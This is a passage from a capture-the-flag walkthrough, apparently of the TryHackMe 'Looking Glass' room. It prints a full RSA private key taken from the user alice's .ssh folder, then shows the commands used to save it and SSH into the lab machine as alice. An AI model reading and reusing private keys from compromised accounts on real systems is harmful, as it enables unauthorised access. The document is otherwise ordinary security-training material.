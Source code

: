 - Nothing's different in those files... Hmm? Maybe alice has an `.ssh` folder?

- Correct, now we got alice's id_rsa

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpgIBAAKCAQEAxmPncAXisNjbU2xizft4aYPqmfXm1735FPlGf4j9ExZhlmmD
NIRchPaFUqJXQZi5ryQH6YxZP5IIJXENK+a4WoRDyPoyGK/63rXTn/IWWKQka9tQ
2xrdnyxdwbtiKP1L4bq/4vU3OUcA+aYHxqhyq39arpeceHVit+jVPriHiCA73k7g
HCgpkwWczNa5MMGo+1Cg4ifzffv4uhPkxBLLl3f4rBf84RmuKEEy6bYZ+/WOEgHl
fks5ngFniW7x2R3vyq7xyDrwiXEjfW4yYe+kLiGZyyk1ia7HGhNKpIRufPdJdT+r
NGrjYFLjhzeWYBmHx7JkhkEUFIVx6ZV1y+gihQIDAQABAoIBAQDAhIA5kCyMqtQj
X2F+O9J8qjvFzf+GSl7lAIVuC5Ryqlxm5tsg4nUZvlRgfRMpn7hJAjD/bWfKLb7j
/pHmkU1C4WkaJdjpZhSPfGjxpK4UtKx3Uetjw+1eomIVNu6pkivJ0DyXVJiTZ5jF
ql2PZTVpwPtRw+RebKMwjqwo4k77Q30r8Kxr4UfX2hLHtHT8tsjqBUWrb/jlMHQO
zmU73tuPVQSESgeUP2jOlv7q5toEYieoA+7ULpGDwDn8PxQjCF/2QUa2jFalixsK
WfEcmTnIQDyOFWCbmgOvik4Lzk/rDGn9VjcYFxOpuj3XH2l8QDQ+GO+5BBg38+aJ
cUINwh4BAoGBAPdctuVRoAkFpyEofZxQFqPqw3LZyviKena/HyWLxXWHxG6ji7aW
DmtVXjjQOwcjOLuDkT4QQvCJVrGbdBVGOFLoWZzLpYGJchxmlR+RHCb40pZjBgr5
8bjJlQcp6pplBRCF/OsG5ugpCiJsS6uA6CWWXe6WC7r7V94r5wzzJpWBAoGBAM1R
aCg1/2UxIOqxtAfQ+WDxqQQuq3szvrhep22McIUe83dh+hUibaPqR1nYy1sAAhgy
wJohLchlq4E1LhUmTZZquBwviU73fNRbID5pfn4LKL6/yiF/GWd+Zv+t9n9DDWKi
WgT9aG7N+TP/yimYniR2ePu/xKIjWX/uSs3rSLcFAoGBAOxvcFpM5Pz6rD8jZrzs
SFexY9P5nOpn4ppyICFRMhIfDYD7TeXeFDY/yOnhDyrJXcbOARwjivhDLdxhzFkx
X1DPyif292GTsMC4xL0BhLkziIY6bGI9efC4rXvFcvrUqDyc9ZzoYflykL9KaCGr
+zlCOtJ8FQZKjDhOGnDkUPMBAoGBAMrVaXiQH8bwSfyRobE3GaZUFw0yreYAsKGj
oPPwkhhxA0UlXdITOQ1+HQ79xagY0fjl6rBZpska59u1ldj/BhdbRpdRvuxsQr3n
aGs//N64V4BaKG3/CjHcBhUA30vKCicvDI9xaQJOKardP/Ln+xM6lzrdsHwdQAXK
e8wCbMuhAoGBAOKy5OnaHwB8PcFcX68srFLX4W20NN6cFp12cU2QJy2MLGoFYBpa
dLnK/rW4O0JxgqIV69MjDsfRn1gZNhTTAyNnRMH1U7kUfPUB2ZXCmnCGLhAGEbY9
k6ywCnCtTz2/sNEgNcx9/iZW+yVEm/4s9eonVimF+u19HJFOPJsAYxx0
-----END RSA PRIVATE KEY-----
```

- Let's try ssh with alice's private key.

```shell
┌──(kali㉿kali)-[~/Desktop/thm/looking-glass]
└─$ nano alice                                                                                                                           1 ⨯
                                                                                                                                             
┌──(kali㉿kali)-[~/Desktop/thm/looking-glass]
└─$ chmod 600 alice
                                                                                                                                             
┌──(kali㉿kali)-[~/Desktop/thm/looking-glass]
└─$ ssh -i alice alice@10.10.219.9
Last login: Fri Jul  3 02:42:13 2020 from 192.168.170.1
alice@looking-glass:~$ 
```

# alice

- Browsing around, there is literally nothing I can see... Again!
